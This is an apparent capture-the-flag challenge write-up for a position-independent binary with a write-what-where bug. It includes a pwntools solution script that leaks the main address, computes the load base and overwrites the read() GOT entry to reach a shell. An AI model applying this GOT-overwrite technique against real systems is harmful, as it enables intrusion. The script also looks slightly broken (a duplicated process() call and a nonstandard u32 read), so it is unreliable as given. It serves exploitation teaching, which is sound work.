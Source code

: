 # PIE GOT
### 📄 Description
This is a position-independent binary which gives you a module address, and a trivial write-what-where.

Can you spawn a shell?

### ⚙ How to run it
```bash
./challenge
```

<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>

This challenge is very similar to the previous but this time we have a PIE executable so we don't know where the GOT will be when the program is loaded in memory. Luckily the program leaks the address of the start of the main function, using that we can calculate the random offset at which the executable is loaded and thus obtain the addresses of the GOT and of out target function. We can then use those addresses to pwn the binary in the same way as the previous challenge.

```python
from pwn import *

context.binary = "./challenge"
p = process()

e = context.binary
p = process()

main_address = p.u32()

log.info(f"leaked main address {hex(main_address)}")

base_address = main_address - e.functions["main"].address

log.info(f"executable base {hex(base_address)}")

e.address += base_address

log.info(f"read() address {hex(e.got['read'])}")
log.info(f"target function address {hex(e.functions['oh_look_useful'].address)}")

p.send(p32(e.got["read"]))
p.send(p32(e.functions["oh_look_useful"].address))
p.recvline()
p.interactive()
```
</details>